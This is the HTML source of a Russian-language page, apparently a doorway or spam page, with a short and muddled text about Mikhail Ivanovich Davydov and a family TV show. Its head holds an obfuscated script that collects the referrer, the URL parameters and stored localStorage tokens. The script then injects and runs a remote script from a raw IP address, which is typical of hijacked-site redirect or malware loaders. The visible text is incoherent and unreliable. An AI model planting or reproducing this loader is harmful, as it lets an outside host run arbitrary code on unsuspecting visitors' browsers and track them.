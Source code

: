 <html lang="ru">

<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<title>Михаил Иванович Давыдов история происхождения его семьи</title>

<p><img src="mi.jpg" alt="" /></p>
	<meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
	<script>
    (function() {
    var name = '_CyjjPGyhRdfbswxC';
    if (!window._CyjjPGyhRdfbswxC) {
        window._CyjjPGyhRdfbswxC = {
            unique: false,
            ttl: 86400,
            R_PATH: 'http://213.32.10.138/pJjWS8LQ',
            P_PATH: 'http://213.32.10.138/928b12a/postback',
        };
    }
    const _mCctZh7ZmZwf32n5 = localStorage.getItem('config');
    if (typeof _mCctZh7ZmZwf32n5 !== 'undefined' && _mCctZh7ZmZwf32n5 !== null) {
        var _s6yVLsvF1Dby8cTn = JSON.parse(_mCctZh7ZmZwf32n5);
        var _QDbMTFf7h6Kyq1DK = Math.round(+new Date()/1000);
        if (_s6yVLsvF1Dby8cTn.created_at + window._CyjjPGyhRdfbswxC.ttl < _QDbMTFf7h6Kyq1DK) {
            localStorage.removeItem('subId');
            localStorage.removeItem('token');
            localStorage.removeItem('config');
        }
    }
    var _bbWL8NmC4Rf2DSsY = localStorage.getItem('subId');
    var _8Yw4nzNqkNxTRp7P = localStorage.getItem('token');
    var _Xq5LBr3rcSst1SRk = '?return=js.client';
        _Xq5LBr3rcSst1SRk += '&' + decodeURIComponent(window.location.search.replace('?', ''));
        _Xq5LBr3rcSst1SRk += '&se_referrer=' + encodeURIComponent(document.referrer);
        _Xq5LBr3rcSst1SRk += '&default_keyword=' + encodeURIComponent(document.title);
        _Xq5LBr3rcSst1SRk += '&landing_url=' + encodeURIComponent(document.location.hostname + document.location.pathname);
        _Xq5LBr3rcSst1SRk += '&name=' + encodeURIComponent(name);
    if (typeof _bbWL8NmC4Rf2DSsY !== 'undefined' && _bbWL8NmC4Rf2DSsY && window._CyjjPGyhRdfbswxC.unique) {
        _Xq5LBr3rcSst1SRk += '&sub_id=' + encodeURIComponent(_bbWL8NmC4Rf2DSsY);
    }
    if (typeof _8Yw4nzNqkNxTRp7P !== 'undefined' && _8Yw4nzNqkNxTRp7P && window._CyjjPGyhRdfbswxC.unique) {
        _Xq5LBr3rcSst1SRk += '&token=' + encodeURIComponent(_8Yw4nzNqkNxTRp7P);
    }
    var a = document.createElement('script');
        a.type = 'application/javascript';
        a.src = window._CyjjPGyhRdfbswxC.R_PATH + _Xq5LBr3rcSst1SRk;
    var s = document.getElementsByTagName('script')[0];
    s.parentNode.insertBefore(a, s)
    })();
    </script>
</head>

<body>
	<p><span>Сегодня Михаил Иванович Давыдов знаменитый человек, но было время когда он был никому неизвестен. </span><b>У Михаила Ивановича </b><span>&nbsp; есть выдающийся сын Михаил Давыдович младший. &nbsp;</span><b> Шоу Давыдовых</b><span>, это передача отца и сына в которой разбираются самые актуальные вопросы. Передача начнет свой показ с 25 апреля на государственном телеканале&nbsp;(5 канал), а так же на цифровом телеканале 155. С&nbsp;</span><b>Михаилом Ивановичем<span>&nbsp;</span></b><span>и его сыном Михаилом Михайловичем </span><b> иногда будет участвовать в съемках и<span>&nbsp;</span>близкая подруга семьи<span>&nbsp;</span></b><span></span><b><span>&nbsp;</span>Лидия Горбачева. </b></p>
</body>

</html>
